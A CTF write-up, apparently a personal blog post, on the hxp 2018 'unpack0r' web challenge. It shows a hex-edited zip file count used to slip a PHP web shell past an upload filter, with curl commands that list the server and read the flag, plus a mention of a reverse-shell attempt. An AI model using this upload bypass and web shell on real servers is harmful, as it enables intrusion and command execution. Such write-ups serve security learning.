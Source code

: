```yaml
---
layout: post
title: unpack0r, h4x0rpsch0rr
category: hxp-2018
---
```

# Description
I could only play hxpCTF during my downtime at Hushcon, but found the challenges extremely engaging and enjoyable. I've split my posts into the crypto challenges and the web challenges. This post is about the web.

NOTE: This is still being written up, sorry for the delay!

# unpack0r
>unpackbar  
>Connection: http://195.201.136.29:8087/

Upon visiting the page, we're presented with what's presumed to be the page source.

```php
<?php
if (isset($_FILES['zip']) && $_FILES['zip']['size'] < 10*1024 ){
    $d = 'files/' . bin2hex(random_bytes(32));
    mkdir($d) || die('mkdir');
    chdir($d) || die('chdir');

    $zip = new ZipArchive();
    if ($zip->open($_FILES['zip']['tmp_name']) === TRUE) {
        for ($i = 0; $i < $zip->numFiles; $i++) {
            if(preg_match('/^[a-z]+$/', $zip->getNameIndex($i)) !== 1){
                die(':/ security');
            }
        }

        exec('unzip ' . escapeshellarg($_FILES['zip']['tmp_name']));
        echo $d;
    }
}
else {
    highlight_file(__FILE__);
}
```

From the source code, we see that the page supports zip file uploads. I wonder what that looks like - let's test the upload functionality with an empty zip.

```bash
echo 'test' > ota

zip test.zip ota
    adding: ota (stored 0%)

curl http://195.201.136.29:8087 -F zip=@test.zip
    files/70c4ec668530f636ec753edbc69f3013a64caba935ebbcf496c2d84d3fb47761

curl http://195.201.136.29:8087/files/70c4ec668530f636ec753edbc69f3013a64caba935ebbcf496c2d84d3fb47761/ota
    test
```

Incredible! So the contents of the zip file are uploaded to the server and displayed back to us. The attack vector is clear, we need to display either a php pass-through page for bash or a php reverse shell. We'll try both methods below.

From the source, if we are to upload a `.php` file, we must bypass the regex validation. The code performs a regex match for each file in the zip, where it gets the number of files from `$zip->numFiles`. What if we controlled that number? Let's take a hexdump of the following two zips and see if we can notice where this data is stored.

```bash
cp ota ota2

zip test1.zip ota
    adding: ota (stored 0%)

zip test2.zip ota ota2
    adding: ota (stored 0%)

```

```bash
xxd test1.zip
    50 4B 03 04 0A 00 00 00 00 00 7A B3 97 4D C6 35 B9 3B 05
    00 00 00 05 00 00 00 03 00 1C 00 6F 74 61 55 54 09 00 03
    68 7C 20 5C 6A 7C 20 5C 75 78 0B 00 01 04 F5 01 00 00 04
    14 00 00 00 74 65 73 74 0A 50 4B 01 02 1E 03 0A 00 00 00
    00 00 7A B3 97 4D C6 35 B9 3B 05 00 00 00 05 00 00 00 03
    00 18 00 00 00 00 00 01 00 00 00 A4 81 00 00 00 00 6F 74
    61 55 54 05 00 03 68 7C 20 5C 75 78 0B 00 01 04 F5 01 00
    00 04 14 00 00 00 50 4B 05 06 00 00 00 00 01 00 01 00 49
    00 00 00 42 00 00 00 00 00                 ^     ^
                                               |     |
```

```bash
xxd test2.zip
    50 4B 03 04 0A 00 00 00 00 00 7A B3 97 4D C6 35 B9 3B 05
    00 00 00 05 00 00 00 03 00 1C 00 6F 74 61 55 54 09 00 03
    68 7C 20 5C 6E 7C 20 5C 75 78 0B 00 01 04 F5 01 00 00 04
    14 00 00 00 74 65 73 74 0A 50 4B 03 04 0A 00 00 00 00 00
    7B B3 97 4D C6 35 B9 3B 05 00 00 00 05 00 00 00 04 00 1C
    00 6F 74 61 32 55 54 09 00 03 6A 7C 20 5C 6B 7C 20 5C 75
    78 0B 00 01 04 F5 01 00 00 04 14 00 00 00 74 65 73 74 0A
    50 4B 01 02 1E 03 0A 00 00 00 00 00 7A B3 97 4D C6 35 B9
    3B 05 00 00 00 05 00 00 00 03 00 18 00 00 00 00 00 01 00
    00 00 A4 81 00 00 00 00 6F 74 61 55 54 05 00 03 68 7C 20
    5C 75 78 0B 00 01 04 F5 01 00 00 04 14 00 00 00 50 4B 01
    02 1E 03 0A 00 00 00 00 00 7B B3 97 4D C6 35 B9 3B 05 00
    00 00 05 00 00 00 04 00 18 00 00 00 00 00 01 00 00 00 A4
    81 42 00 00 00 6F 74 61 32 55 54 05 00 03 6A 7C 20 5C 75
    78 0B 00 01 04 F5 01 00 00 04 14 00 00 00 50 4B 05 06 00
    00 00 00 02 00 02 00 93 00 00 00 85 00 00 00 00 00
              ^     ^
              |     |
```

Right at the end we notice that two values seem unique to each zip; this value represents the number of files in the archive. So if trick the upload code to think that there's only one file, it won't perform a regex check against out php code! Let's give it a shot.

```bash
echo "<?php if(_GET['chai']){ system(_GET['chai']); } ?>" > sh.php

zip ota.zip ota sh.php
    adding: ota (stored 0%)
    adding: sh.php (deflated 22%)

curl http://195.201.136.29:8087 -F zip=@ota.zip
    files/35b3b565956486899c204c899c799747a0d9ab6584d89bcd7b62db6abcdf267c

curl http://195.201.136.29:8087/files/35b3b565956486899c204c899c799747a0d9ab6584d89bcd7b62db6abcdf267c?chai=ls
    ota
    sh.php
```

Perfect! Now we can go get the flag.

```bash
curl http://195.201.136.29:8087/files/35b3b565956486899c204c899c799747a0d9ab6584d89bcd7b62db6abcdf267c/ota.php\?chai\=ls+/
    bin
    boot
    dev
    etc
    flag_WRLJSth9Xq54q5ZGNv8ppAT9.php
    home
    lib
    lib64
    media
    mnt
    opt
    proc
    root
    run
    sbin
    srv
    sys
    tmp
    usr
    var

curl http://195.201.136.29:8087/files/35b3b565956486899c204c899c799747a0d9ab6584d89bcd7b62db6abcdf267c/bbb.php\?chai\=cat+/flag_WRLJSth9Xq54q5ZGNv8ppAT9.php
    <?php
    'hxp{please_ask_gynvael_for_more_details_on_zips_:>}';
```

Note: We tried a reverse PHP shell (specifically [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell)) and it seems the application won't allow reverse connections (as expexted). See output below.
```bash
curl http://195.201.136.29:8087/files/3075a1f1910f2c423d852b164f57856f37b1bdc3fb5834b7ad0a9614c1495d23/rsh.php\
    WARNING: Failed to daemonise.  This is quite common and not fatal.
    Connection refused (111)
```

# h4x0rpsch0rr
>Finally a use case for those internet tingies!  
>Connection: http://195.201.136.29:8001/

Upon visiting the challenge, we land on an interesting page:

![landing](https://github.com/drtychai/drtychai.github.io/blob/master/assets/img/hxp-2018/h4x0rpsch0rr-landing.png)

